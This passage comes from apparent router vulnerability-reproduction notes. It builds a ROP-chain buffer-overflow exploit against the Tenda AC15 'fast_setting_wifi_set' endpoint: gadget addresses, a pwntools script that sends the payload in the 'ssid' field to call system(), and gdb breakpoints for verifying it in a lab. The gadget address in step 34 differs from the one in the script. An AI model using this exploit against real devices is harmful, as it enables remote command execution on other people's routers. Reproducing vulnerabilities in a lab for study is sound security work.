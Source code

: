 ![](/Users/Hacker_learn/Cybersecurity_Note/IoT_Security/Vulnerability_Reproduction_Notes/Tenda_AC_15/img/ac-9.png)

34、From the two steps we identify:

```
mov_addr = 0x00040cb4
pop_addr = 0x00018298
```

35、Now construct the ROP payload:

```
import requests
from pwn import *
target_ip = "192.168.3.3"
target_port = 80

ji_addr = 0x76dab000  # libc base
system_addr = 0x5A270  # system offset
pop_addr = 0x18298
mov_addr = 0x49c64

one_jg_addr = ji_addr + 0x00064144  # string address in libc
two_jp_addr = ji_addr + pop_addr
three_jp_addr = ji_addr + system_addr
end_jp_addr = ji_addr + mov_addr

cmd = 'ps>aaaaaaaaaaaaaaaa.txt'

payload = b'a'*(0x60) + p32(one_jg_addr) + b'b'*(0x18) + p32(two_jp_addr) + p32(three_jp_addr) + p32(end_jp_addr)

url = f"http://192.168.3.3/gofrom/fast_setting_wifi_set"
cookie = {"Cookie":"password=qweqwe"}
data = {"ssid":payload}

response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
```

36、ROP chain is constructed. Start `httpd` and `gdbserver`, then attach gdbserver.

```
b *0x67070, 0x67088, 0x6775c  # set breakpoints (host startup script)
c  # run until first breakpoint and inspect
c  # continue to second
c  # continue to third
```

![](/Users/Hacker_learn/Cybersecurity_Note/IoT_Security/Vulnerability_Reproduction_Notes/Tenda_AC_15/img/ac-10.png)

![](/Users/Hacker_learn/Cybersecurity_Note/IoT_Security/Vulnerability_Reproduction_Notes/Tenda_AC_15/img/ac-11.png)

![](/Users/Hacker_learn/Cybersecurity_Note/IoT_Security/Vulnerability_Reproduction_Notes/Tenda_AC_15/img/ac-12.png)

37、Verification

![](/Users/Hacker_learn/Cybersecurity_Note/IoT_Security/Vulnerability_Reproduction_Notes/Tenda_AC_15/img/ac-13.png)
